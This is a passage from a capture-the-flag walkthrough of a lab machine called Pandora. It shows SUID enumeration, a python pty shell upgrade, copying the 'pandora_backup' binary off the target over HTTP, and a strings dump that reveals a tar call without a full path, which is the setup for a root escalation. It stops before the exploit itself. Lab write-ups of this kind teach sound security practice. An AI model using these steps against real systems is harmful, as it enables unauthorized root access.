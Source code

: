 ## Escalating Privileges To Root

Listing the ```SUID``` binaries, 

```c
$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/pandora_backup
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
/usr/bin/at
/usr/bin/fusermount
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
```

Its time to exploit ```/usr/bin/pandora_backup```

Changing to interactive shell,

```c
$ which python3
/usr/bin/python3
$ python3 -c "import pty;pty.spawn('/bin/bash')"
matt@pandora:/home/matt$ ls
ls
user.txt
```

Copying the ```SUID binary``` to local machine,

```c
matt@pandora:/home/matt$ cp /usr/bin/pandora_backup .
cp /usr/bin/pandora_backup .
matt@pandora:/home/matt$ ls
ls
pandora_backup  user.txt
matt@pandora:/home/matt$ python3 -m http.server
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.14.5 - - [30/Mar/2022 17:58:54] "GET /pandora_backup HTTP/1.1" 200 -
```

After using the ```strings``` on the binary, we can see its operation

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ strings pandora_backup                                                                                            

...

u/UH
[]A\A]A^A_
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*
Backup failed!
Check your permissions!
```